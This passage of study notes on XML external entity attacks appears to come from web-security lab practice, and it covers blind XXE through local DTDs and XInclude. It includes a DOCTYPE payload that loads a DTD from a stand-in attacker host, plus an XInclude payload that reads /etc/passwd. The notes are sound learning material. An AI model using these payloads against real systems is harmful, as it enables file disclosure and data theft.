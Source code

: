Finally, the attacker must submit the following XXE payload to the vulnerable website:
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/exploit"> %xxe;]>`


## Exploiting blind XXE by repurposing a local DTD

**Q) When to use a Local DTD?**
1) We can declare & reference entities, but we can't exfilterate data **In-Band**
2) Egress filtering prevents **Out-of-Band** calls to our server


A *local DTD* is DTD file that already exists on the target server. We leverage this DTD file by causing an error to Exfilterate data.

Check for **variance** in application **response**, like `File not found` by using previous payloads which access a file!

- To find DTD files, use this [Wordlist](https://github.com/GoSecure/dtd-finder/blob/master/list/dtd_files.txt)
![[Pasted image 20230708122117.png]]

- After you find the correct entities, go [here](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md) & use the Payload!

---
# XInclude Attacks
If the Request doesn't take XML Input :-
1) Use Burp Extension **Content Type Converter** & try to convert it to XML/JSON, check if it takes the input.
2) If it doesn't try to call a **random entity**
	URL Encode the "&" symbol else it'll be treated like `http://0a5c0030033d1c2a8089c18a00890049.web-security-academy.net/product?productId=&lol&storeId=1`
![[Pasted image 20230708130950.png]]

3) If this happens, it means that application is *parsing XML*. Enter the Exploit in the ID Parameter!

**Exploit**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>
```

##### X-Include Use cases
- We don't have control over the "Entire" XML document, only a part of it.
- The Application returns the contents of an Element we control!

---
# XXE via File Upload
![[49732.pdf]]